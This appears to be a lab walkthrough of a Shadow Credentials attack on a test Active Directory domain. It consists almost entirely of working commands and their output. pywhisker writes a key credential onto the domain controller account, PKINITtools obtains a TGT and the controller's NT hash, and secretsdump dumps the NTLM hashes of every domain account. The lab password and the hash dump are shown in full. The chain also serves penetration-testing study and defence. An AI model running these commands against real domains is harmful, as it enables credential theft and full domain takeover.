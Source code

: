 # Shadow Credentials

## Scenario
domain: lab.local
ADCS: present and required for PKINIT
user: sysadmin
group membership: key admins
privilege: AddKeyCredentialLink over Domain Controller: DC$

## Step #1: List key credentials
listing the keys on the DC. the out gives an either/or answer so we should try going for it

## Command
```bash
python3.8 pywhisker.py -v --dc-ip dc -d lab.local -u sysadmin -p 'Abc123!!' --target 'dc$' --action list
```
## Output
```
[*] Searching for the target account
[*] Target user found: CN=DC,OU=Domain Controllers,DC=LAB,DC=local
[*] Attribute msDS-KeyCredentialLink is either empty or user does not have read permissions on that attribute
```

## Action #2: Add key credentials
## Command
```bash
python3.8 pywhisker.py -v --dc-ip dc -d lab.local -u sysadmin -p 'Abc123!!' --target 'dc$' --action add
```
## Output
```
[*] Searching for the target account
[*] Target user found: CN=DC,OU=Domain Controllers,DC=LAB,DC=local
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: e3550b17-9746-d819-99eb-0d907c12922d
[*] Updating the msDS-KeyCredentialLink attribute of dc$
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[VERBOSE] No filename was provided. The certificate(s) will be stored with the filename: dnUC8Y14
[VERBOSE] No pass was provided. The certificate will be stored with the password: cCw1PLYcsQsUJggLshDq
[+] Saved PFX (#PKCS12) certificate & key at path: dnUC8Y14.pfx
[*] Must be used with password: cCw1PLYcsQsUJggLshDq
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
[VERBOSE] Run the following command to obtain a TGT
[VERBOSE] python3 PKINITtools/gettgtpkinit.py -cert-pfx dnUC8Y14.pfx -pfx-pass cCw1PLYcsQsUJggLshDq lab.local/dc$ dnUC8Y14.ccache
```

## Step #3: Getting TGT
using PKINIT, we request a TGT

## Command
```bash
python3.8 /opt/PKINITtools/gettgtpkinit.py -v -dc-ip dc -cert-pfx dnUC8Y14.pfx -pfx-pass cCw1PLYcsQsUJggLshDq lab.local/dc$ dnUC8Y14.ccache
```

## Output
```
2022-07-05 05:58:06,827 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2022-07-05 05:58:06,841 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2022-07-05 05:58:18,909 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2022-07-05 05:58:18,909 minikerberos INFO     5f35c60f52a4aa68fedf4673b70b6b9f08ca8a494031fbb361b2302954c1969f
INFO:minikerberos:5f35c60f52a4aa68fedf4673b70b6b9f08ca8a494031fbb361b2302954c1969f
2022-07-05 05:58:18,912 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

## Step #4: Getting NTHASH
using the key generated in Step #3 and exporting the generated TGT into our kerberos cache, we're going to get the NTLM hash for the DC :D

## Command
```bash
export KRB5CCNAME=/opt/pywhisker/dnUC8Y14.ccache
python3.8 /opt/PKINITtools/getnthash.py -dc-ip dc lab.local/'DC$' -key 5f35c60f52a4aa68fedf4673b70b6b9f08ca8a494031fbb361b2302954c1969f
```

## Output
```
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
8028aac845cdc82881b55e1d0b1c88e5
```

## Step #5: Dumping NTDS.dit

## Command:
```bash
secretsdump.py -just-dc-ntlm -dc-ip dc lab.local/'DC$'@dc.lab.local -hashes :8028aac845cdc82881b55e1d0b1c88e5
```

## Output:
```
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:ae8953772e3b34f7fcba87c9a2d747f3:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:eff164ce8ed0ac98cb7520c4de7dfc0b:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
LAB.local\FSAdmin:1104:aad3b435b51404eeaad3b435b51404ee:ae8953772e3b34f7fcba87c9a2d747f3:::
LAB.local\Regular:1106:aad3b435b51404eeaad3b435b51404ee:ae8953772e3b34f7fcba87c9a2d747f3:::
LAB.local\SysAdmin:1107:aad3b435b51404eeaad3b435b51404ee:ae8953772e3b34f7fcba87c9a2d747f3:::
LAB.local\JohnSmith:1108:aad3b435b51404eeaad3b435b51404ee:ae8953772e3b34f7fcba87c9a2d747f3:::
LAB.local\NewUser:1113:aad3b435b51404eeaad3b435b51404ee:ae8953772e3b34f7fcba87c9a2d747f3:::
DcpnYhFXlO:1117:aad3b435b51404eeaad3b435b51404ee:565cae8a079a5078163bc7969d132b9b:::
PoCOUBzGGU:1118:aad3b435b51404eeaad3b435b51404ee:1713981fe06cd340348300f7500befcf:::
john:1123:aad3b435b51404eeaad3b435b51404ee:98da674948a73eb2cfa124e9aca27a03:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:8028aac845cdc82881b55e1d0b1c88e5:::
CLIENT1$:1105:aad3b435b51404eeaad3b435b51404ee:43ca831bd985a0e64297f7799b39660b:::
FS$:1115:aad3b435b51404eeaad3b435b51404ee:995c9d47bb2bf0ff113b525d38cae2e1:::
HZBDQHVP$:1116:aad3b435b51404eeaad3b435b51404ee:38ae9e7ea8d9ab0f07982baac9e11b48:::
SFDRQNQH$:1119:aad3b435b51404eeaad3b435b51404ee:094a2d83f66f017ccd989a024e7bceee:::
JWHMHWBU$:1120:aad3b435b51404eeaad3b435b51404ee:53fb78699467a971ee2a51109afcf7e2:::
gmsa1$:1122:aad3b435b51404eeaad3b435b51404ee:2be99b0ca6594829276aaf74358624b8:::
[*] Cleaning up... 
```